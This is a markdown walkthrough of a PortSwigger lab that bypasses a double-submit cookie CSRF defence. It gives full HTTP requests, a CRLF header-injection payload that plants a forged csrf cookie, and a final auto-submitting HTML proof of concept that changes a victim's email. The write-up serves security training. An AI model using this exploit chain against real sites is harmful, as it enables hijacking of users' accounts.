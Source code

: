 ## Lab Description :

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/5e3c5679-cfe8-4604-88d1-27aff3ccef53)


## Overview :

Sites also commonly use a **double-submit cookie as a defense against CSRF**. In this technique, the state-changing request contains the same random token as both a cookie and a request parameter, and  the server checks whether the two values are equal. If the values match, the request is seen as legitimate. Otherwise, the application rejects.

If the application uses double-submit cookies as its CSRF defense mechanism, it’s probably not keeping records of the valid token server-side. If the server were keeping records of the CSRF token server-side, it could simply validate the token when it was sent over, and the application would not need  to use double-submit cookies in the first place. 

The **server has no way of knowing if any token it receives is actually legitimate; it’s merely checking that the token in the cookie and the token in the request body is the same**. 

_Bypass this restriction by providing same non legitimate token in both request & body -_

```http
POST /password_change
Host: email.example.com
Cookie: session_cookie=YOUR_SESSION_COOKIE; csrf_token=not_a_real_token
(POST request body)
new_password=abc123&csrf_token=not_a_real_token
```


## Solution :

When we login as wiener using the credentials `wiener:peter` , we can see that there is an option to update email.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/81496866-9b48-4acd-b45e-cdf53f282194)


When we click _update email_ , browser sends a POST request to `/my-account/change-email` endpoint.

```http
POST /my-account/change-email HTTP/1.1
Host: 0a5200eb035a4bf3809f127f001f008b.web-security-academy.net
Cookie: session=oJuWDMUGan7TVwoWDo33yLY0YZDxXCCi; csrf=OCdA7UvClyR6Aw4aRGYUKWKZWRYhB3Q8
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:106.0) Gecko/20100101 Firefox/106.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 59
Origin: https://0a5200eb035a4bf3809f127f001f008b.web-security-academy.net
Referer: https://0a5200eb035a4bf3809f127f001f008b.web-security-academy.net/my-account?id=wiener
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close

email=user%40user.net&csrf=OCdA7UvClyR6Aw4aRGYUKWKZWRYhB3Q8
```
We can see that there is a **double submit of csrf token** in the cookie and request parameter. 

**This means that the server is not storing csrf tokens on server side instead it is just comparing whether both the tokens are same . If yes then it accepts the request else it rejects.**

So to bypass this , we can give any random token of the same length (the server might be checking the length of the token also) both in cookie and in request parameter.

```http
POST /my-account/change-email HTTP/1.1
Host: 0a5200eb035a4bf3809f127f001f008b.web-security-academy.net
Cookie: session=oJuWDMUGan7TVwoWDo33yLY0YZDxXCCi; csrf=anytoken
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:106.0) Gecko/20100101 Firefox/106.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 59
Origin: https://0a5200eb035a4bf3809f127f001f008b.web-security-academy.net
Referer: https://0a5200eb035a4bf3809f127f001f008b.web-security-academy.net/my-account?id=wiener
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close

email=pwned%40user.net&csrf=anytoken
```

But we can't directly change the value of csrfkey cookie & send the request, it won't work.

To change the csrfkey value we need to perform **Host Header Injection** to inject the csrfkey cookie into the victim browser whne he clicks on the link which we create.

#### Injecting csrfkey cookie value -

We need to find any functionality that takes user input. IN this case, we have a search functionality.

If we search for any term , we can see from the response that the search we used is getting added as a cookie - `Set-Cookie: LastSearchTerm=hello`

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/15699775-2df8-4922-8c3c-c47762559c15)


So with this we can try to inject the csrfkey value.

Use this payload query in the search parameter of the request - `/?search=test%0d%0aSet-Cookie:%20csrf=anytoken%3b%20SameSite=None` which decodes to `/?search=test Set-Cookie: csrf=anytoken; SameSite=None`

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/bb314731-0f4c-4d08-8c49-92fc79031406)

From the response we can confirm that we can inject the csrfkey value by HTTP header injection.

#### Generate csrf POC -

```http
POST /my-account/change-email HTTP/2
Host: 0aa7009804198f7480e676da00a90003.web-security-academy.net
Cookie: session=oJuWDMUGan7TVwoWDo33yLY0YZDxXCCi; LastSearchTerm=hello; csrf=rDAgotYXNjVLeo1Ku6YLvJYzxwVhRL3Y
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:106.0) Gecko/20100101 Firefox/106.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 59
Origin: https://0aa7009804198f7480e676da00a90003.web-security-academy.net
Referer: https://0aa7009804198f7480e676da00a90003.web-security-academy.net/my-account?id=wiener
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers

email=pwned%40user.net&csrf=anytoken
```

Send this request to CSRF POC generator. 

> Note that we have only changed the csrf token value to **anytoken**. The csrfkey value is still the same. It will have to be injected into victim's session. For this we can use a `<img>` tag, where we load the url along with HTTP header injection payload to inject the csrfkey value as anytoken . Since there is no image in that url , it will trigger an error. On error it will submit the form.


```html
<img src="https://0aa7009804198f7480e676da00a90003.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrf=anytoken%3b%20SameSite=None" onerror="document.forms[0].submit();"/>
```

**Final POC** -

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://0aa7009804198f7480e676da00a90003.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="pwned&#64;user&#46;net" />
      <input type="hidden" name="csrf" value="anytoken" />
      <input type="submit" value="Submit request" />
    </form>
      <img src="https://0aa7009804198f7480e676da00a90003.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrf=anytoken%3b%20SameSite=None" onerror="document.forms[0].submit();"/>
  </body>
</html>
```

Deliver the exploit to victim & solve the lab.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/f1ecc800-19d5-4d98-bd6f-e8a45b399223)








